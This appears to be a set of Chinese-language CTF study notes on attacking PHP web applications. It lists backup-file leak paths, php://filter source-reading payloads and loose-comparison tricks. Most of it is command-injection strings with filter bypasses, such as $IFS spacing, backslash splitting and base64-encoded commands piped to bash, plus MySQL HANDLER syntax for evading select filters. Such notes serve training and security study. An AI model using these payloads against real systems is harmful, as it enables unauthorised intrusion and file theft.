 # PHP

* ## 基础

Robots.txt 查看robots协议规定的网站信息（对网站本身并无实质性影响）

备份源码泄露：

```
www.zip
www.tar.gz
index.php.bak
```

弱口令爆破：burp抓包后更改爆破点，加载字典进行爆破

X-Forward-For / Referer 伪造 --&gt; X-Forward-For 为最初发起请求的客户端的ip地址，Referer 为当前请求页面的来源页面地址

php弱类型对比（==），不涉及数据转换 --&gt; 0e123==0e456 （典型：md5碰撞）

php伪协议：

```
php://input  //通过post方法将原数据远程上传至服务器
php://filter //通过一些过滤将原数据进行一些操作后下载
?file=php://filter/read=convert.base64-encode/resource=flag.php
        //将flag.php内部源码进行base64编码后给file赋值
```

* ### 命令注入

HTML注入：

```
127.0.0.1;var_dump(scandir('/'));   //显示根目录下文件列表
127.0.0.1;file_get_contents(filename);  //获取文件内容
```

* #### Bypass

空格绕过 --&gt; 采用&lt;&gt;、/\*\*/、采用特殊变量$IFS

利用反斜杠

```
cat /flag ==> c\at /fl\ag
```

base64编码和解码

```
echo Y2F0IC9mbGFn|base64 -d|bash
```

过滤斜杠 --&gt;利用环境变量进行字符串截取

过滤select--&gt;采用handler进行注入

```
HANDLER tbl_name OPEN [ [AS] alias]

HANDLER tbl_name READ index_name { = | <= | >= | < | > } (value1,value2,...)
    [ WHERE where_condition ] [LIMIT ... ]
HANDLER tbl_name READ index_name { FIRST | NEXT | PREV | LAST }
    [ WHERE where_condition ] [LIMIT ... ]
HANDLER tbl_name READ { FIRST | NEXT }
    [ WHERE where_condition ] [LIMIT ... ]

HANDLER tbl_name CLOSE 
```

利用单引号绕过

拼接：

```
/?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php
```

编码：

```
/?ip=1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|bash
```

内联：

    /?ip=127.0.0.1;cat$IFS$9`ls`

* #### 



